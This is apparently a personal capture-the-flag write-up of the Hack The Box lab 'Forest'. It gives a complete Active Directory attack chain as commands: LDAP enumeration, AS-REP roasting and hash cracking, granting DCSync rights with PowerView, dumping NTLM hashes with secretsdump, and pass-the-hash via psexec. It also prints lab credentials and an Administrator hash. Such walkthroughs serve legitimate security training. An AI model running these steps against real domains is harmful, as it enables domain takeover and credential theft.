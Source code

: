 # Forest

Tags: AD-Win
Level: Easy
Tools: nmap, dig, ldapsearch, smbclient, enum4linux, windapsearch.py, GetNPUsers.py, hashcat, evil-winrm, sharphound, bloodhound, PowerView.ps1, secretsdumps.py, psexec.py 
Bugs: AD, local user is service level has permission to create user and dump the NTLM hashes of administrator.
Status: Done
Date: December 13, 2023

### Nmap

![Untitled](Forest%200af32c4b7da143ebb4ac512fbb26533f/Untitled.png)

I found one domain **htb.local** added into the the /etc/hosts file, trying access the from browser it’s redirecting to https not able reach page 

ports=$(nmap -p- --min-rate=1000 -T4 10.10.10.161 | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)

nmap -sC -sV -p$ports 10.10.10.161

![Untitled](Forest%200af32c4b7da143ebb4ac512fbb26533f/Untitled%201.png)

### Enumeration

Tried **DIG** because port is open but no use

dig @10.10.10.161 htb.local

![Untitled](Forest%200af32c4b7da143ebb4ac512fbb26533f/Untitled%202.png)

It’s worth of checking if the **LDAP server** allows anonymous binds using the ldapsearchtool

 

```bash
ldapsearch -H ldap://10.10.10.161 -x -s base namingcontests
ldapsearch -H ldap://10.10.10.161 -x -b "dc=htb,dc=local"
ldapsearch -H ldap://10.10.10.161 -x -b dc=htb,dc=local
ldapsearch -H ldap://10.10.10.161 -x -b "dc=htb,dc=local" "(objectClass=person)"
ldapsearch -H ldap://10.10.10.161 -x -b "dc=htb,dc=local" "(objectClass=person)" | grep "sAMAccountName"
cat sAMAccountName | cut -d ":" -f 2 > users
cat users
```

![Untitled](Forest%200af32c4b7da143ebb4ac512fbb26533f/Untitled%203.png)

**enum4linux** 10.10.10.161

users in the **enum4linux**

![Untitled](Forest%200af32c4b7da143ebb4ac512fbb26533f/Untitled%204.png)

**SMBCLIENT**

With anonymous login of the **smbclient** not found any information

![Untitled](Forest%200af32c4b7da143ebb4ac512fbb26533f/Untitled%205.png)

**Windasearch**

You can able find username in active directory using this script

#error invalid mode error to run the python script

```bash
https://github.com/ropnop/windapsearch
#error invalid mode error to run the python script
sudo apt-get install libldap2-dev libsasl2-dev
python -m pip install python-ldap or
python -m pip install python3-ldap
#first sceenshot
python3 windapsearch.py -d htb.local --dc-ip 10.10.10.161 -U
#second sceenshot
python3 windapsearch.py -d htb.local --dc-ip 10.10.10.161 --custom "objectClass=*"
```

It has identified 28 users

![Untitled](Forest%200af32c4b7da143ebb4ac512fbb26533f/Untitled%206.png)

![Untitled](Forest%200af32c4b7da143ebb4ac512fbb26533f/Untitled%207.png)

**GetNPUsers**

For the user accounts that are enabled with no pre-authentication, (basically Kerberos pre-authentication is disabled) it’s vulnerable to AS-REP Roasting attack. We can request for the user’s Kerberos TGT ticket without providing any authentication, and the TGT ticket which we will get back will be encrypted with account’s password. SO we can crack the hash offline. Using the Impacket’s [GetNPUsers.py](http://GetNPUsers.py) script, we can do attacak:

```bash
./GetNPUsers.py htb.local/ -dc-ip 10.10.10.161 -request
```

![Untitled](Forest%200af32c4b7da143ebb4ac512fbb26533f/Untitled%208.png)

**Hashcat**

Find the **hashcat hash types**(search like this in google) ****then find **hashmode** this case i got 18200

command is 

```bash
hashcat -m 18200 hash_tgt rockyou.txt
john --wordlist=rockyou.txt hash_tgt
```

![Untitled](Forest%200af32c4b7da143ebb4ac512fbb26533f/Untitled%209.png)

It can cracked using john as well

![Untitled](Forest%200af32c4b7da143ebb4ac512fbb26533f/Untitled%2010.png)

Now we have username/password are **svc-alfresco/s3rvice** using this login using **crackmapexec** or **evil-winrm** to gain initial foothold

![Untitled](Forest%200af32c4b7da143ebb4ac512fbb26533f/Untitled%2011.png)

Crackmapexec is not given any shell let’s try another one.

![Untitled](Forest%200af32c4b7da143ebb4ac512fbb26533f/Untitled%2012.png)

### User flag

FInal got initial shell

ls = dir

cat is type for open the flag in windows

![Untitled](Forest%200af32c4b7da143ebb4ac512fbb26533f/Untitled%2013.png)

Checking the current user privileages

using this command

**net user /domain**

![Untitled](Forest%200af32c4b7da143ebb4ac512fbb26533f/Untitled%2014.png)

Let’s enumerate for current user

![Untitled](Forest%200af32c4b7da143ebb4ac512fbb26533f/Untitled%2015.png)

Now this user is part of the **Domain Users** and **Service Accounts**

Transfer the winPEAS.bat file to target then execute see what the vulnerabilities

NO interesting  are found

![Untitled](Forest%200af32c4b7da143ebb4ac512fbb26533f/Untitled%2016.png)

Download bloodhound from github https://github.com/BloodHoundAD/BloodHound

Their you can find the SharpHound.exe upload into the target using python server

![Untitled](Forest%200af32c4b7da143ebb4ac512fbb26533f/Untitled%2017.png)

```bash
.\SharpHound.exe --collectionmethods All
```

After running the command it’s created 2 new files

![Untitled](Forest%200af32c4b7da143ebb4ac512fbb26533f/Untitled%2018.png)

Download these files to local system

first need to start neo4j console credentials neo4j/kali

![Untitled](Forest%200af32c4b7da143ebb4ac512fbb26533f/Untitled%2019.png)

The start the bloodhound —nosandbox it will pop new window use the credentials as neo4j/kali

then drag and drop the zip file you downloaded after sharphound.exe file

you will get like this video link [https://youtu.be/H9FcE_FMZio](https://youtu.be/H9FcE_FMZio)

good artical to review 

[HackTheBox-Forest](https://arz101.medium.com/hackthebox-forest-441c2cd7f53)

![Untitled](Forest%200af32c4b7da143ebb4ac512fbb26533f/Untitled%2020.png)

![Untitled](Forest%200af32c4b7da143ebb4ac512fbb26533f/Untitled%2021.png)

In that **WriteDacl** option click on the help see the below options

> After checking reachable high value targets we discover our service account is a member of the Account Operators group which has Generic All permissions to the Exchange Windows Permissions Group.
> 
> 
> The Exchange Windows Permissions Group has Write Dacl to the domain. This means we can create a user and give it Exchange Windows Permissions rights and give it DCSync ACL privileges with PowerView.
> 

![Untitled](Forest%200af32c4b7da143ebb4ac512fbb26533f/Untitled%2022.png)

Creatin the new user and giving required permissions

![Untitled](Forest%200af32c4b7da143ebb4ac512fbb26533f/Untitled%2023.png)

using htb document

![Untitled](Forest%200af32c4b7da143ebb4ac512fbb26533f/Untitled%2024.png)

```bash
Ps> $SecPassword = ConvertTo-SecureString 'ashok123@' -AsPlainText -Force
Ps> $Cred = New-Object System.Management.Automation.PSCredential('htb\ashok', $SecPassword)
Ps> Add-DomainObjectAcl -Credentials $Cred –TargetIdentity htb.local -PrincipalIdentity ashok -Rights DCSync # not worked hacking articals 
Ps> Add-DomainObjectAcl -Credential $Cred -TargetIdentity "DC=htb,DC=local" -PrincipalIdentity ashok -Rights DCSync# not worked hacking articals

Add-ObjectACL -PrincipalIdentity ashok -Credential $cred -Rights DCSync #working from htb document walkthrough
```

![Untitled](Forest%200af32c4b7da143ebb4ac512fbb26533f/Untitled%2025.png)

[secrectsdump.py](http://secrectsdump.py) htb/ashok@10.10.10.161

Next day

after entering the password as **ashok123@** it dumped all the NTLM hashes

![Untitled](Forest%200af32c4b7da143ebb4ac512fbb26533f/Untitled%2026.png)

### Root flag

We got that Administrator’s NTLM hash

*htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6:::*

Using we can run [pxexec.py](http://pxexec.py) copy file local directory **/usr/share/doc/python3-impacket/examples/psexec.py** assign the permission of chmod 755 

![Untitled](Forest%200af32c4b7da143ebb4ac512fbb26533f/Untitled%2027.png)

Got root flag at Administrator’s desktop folder

![Untitled](Forest%200af32c4b7da143ebb4ac512fbb26533f/Untitled%2028.png)
